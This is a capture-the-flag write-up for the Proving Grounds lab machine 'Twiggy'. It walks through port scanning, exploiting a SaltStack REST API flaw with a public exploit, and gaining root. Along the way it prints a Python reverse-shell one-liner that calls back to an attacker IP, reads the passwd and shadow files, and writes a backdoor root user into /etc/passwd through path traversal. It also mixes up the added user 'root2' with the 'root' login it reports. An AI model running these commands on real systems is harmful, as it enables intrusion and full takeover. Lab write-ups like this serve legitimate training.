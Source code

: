```yaml
---
description: Writeup for Twiggy from Offensive Security Proving Grounds (PG)
---
```


# Twiggy

## Information Gathering

### Service Enumeration

`nmapAutomator.sh -H 192.168.134.62 -t full`

`nmapAutomator.sh -H 192.168.134.62 -t vulns`

![](../../.gitbook/assets/4591f23d66844cfa8e3dfe365c0c0863.png)

### Port 80

Mezzanine is running.

![](../../.gitbook/assets/9777714328414f029c1c70fb5902d558.png)

### Port 8000

The SaltStack Salt REST API is running.

![](../../.gitbook/assets/7ef843ff98d74ead9c22591945e47d6f.png)

## Exploitation

SaltStack &lt; 3000.2, &lt; 2019.2.4, 2017.\*, 2018.\* is vulnerable to an RCE vulnerability.

Exploit from: [https://www.exploit-db.com/exploits/48421](https://www.exploit-db.com/exploits/48421)

![](../../.gitbook/assets/586b49ee1e844709bb90a376b7f43e92.png)

We can try to execute a reverse shell.

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.134",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`

However, this does not work \(presumably because of the firewall\).

We can, however, read arbitrary files, including `passwd` and `shadow`.

![](../../.gitbook/assets/ee4085800b784b38bf5014c53ef3fb21.png)

![](../../.gitbook/assets/59b5700fa986437db1c089123cf13f86.png)

We can also write arbitrary files. To add our own root user to `/etc/passwd`:

```bash
echo "root2:bWBoOyE1sFaiQ:0:0:root:/root:/bin/bash" >> passwd
```

Note that this hash corresponds to our custom password, `mypass`.

```bash
$ openssl passwd mypass                                                    
bWBoOyE1sFaiQ
```

Upload the modified file: `python3 48421.py --master 192.168.134.62 --upload-src passwd --upload-dest ../../../../../etc/passwd`

![](../../.gitbook/assets/8461c72141664918a8f64d118b3028af.png)

Check that our user was correctly added:

![](../../.gitbook/assets/83e1acb549034264a3408e7cba2251e3.png)

Now, using the `root:mypass` credentials, we can SSH into the server as root. This works because password authentication is enabled.

![](../../.gitbook/assets/4994407277db4fe9a3fee4fb462816df.png)

![](../../.gitbook/assets/7c8646a82aac4f17bf9cba7da5de13b6.png)

